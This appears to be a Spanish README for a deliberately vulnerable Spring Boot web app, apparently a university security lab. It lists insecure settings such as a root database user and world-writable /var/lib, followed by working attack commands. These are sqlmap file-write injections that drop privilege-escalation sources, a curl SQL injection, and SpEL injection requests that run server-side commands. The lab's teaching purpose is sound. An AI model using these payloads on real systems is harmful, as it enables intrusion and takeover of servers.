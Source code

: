 # AppVulnerable

## Errores de Configuración en el Server:

1. La aplicación utiliza el usuario de root para acceder a la base de datos.
2. Se encuentra configurado para que todos los usuarios tengan permisos para las carpetas
chmod -R a+rwX /var/lib/

## Pasos previos

Se debe tener corriendo una base de datos mysql y ejecutar los scripts que estan dentro de la carpeta script para crear la tabla y el usuario que la app usa

## Requests que explotan vulnerabilidades

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/hello.c --file-dest=/var/lib/mysql-files/hello.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/compile.sh --file-dest=/var/lib/mysql-files/compile.sh

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/suidhelper.c --file-dest=/var/lib/mysql-files/suidhelper.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/doubleput.c --file-dest=/var/lib/mysql-files/doubleput.c

- curl -X GET localhost:8080/users?id=6%20OR%201=1
	- id es un campo vulnerable a sql injection

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"[comando]\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Ejecuta comandos del lado del servidor
	- Pervio a esto se debe crear la /entity/1/ con -> curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Permite ver el output de la ejecucion del comando


## Frontend

Actualmente se levanta lo que este en /src/main/resources/*
Ir al directorio donde esta la aplicacion y correr

- mvn clean install
    - Agrega las dependencias para la carga de template thymeleaf y dependencias para el frontend, tambien crea el directorio
    /src/front/dist y copia los archivos generados a /src/main/resources/static

- mvn spring-boot:run
    - Levanta la aplicacion en el puerto 8080



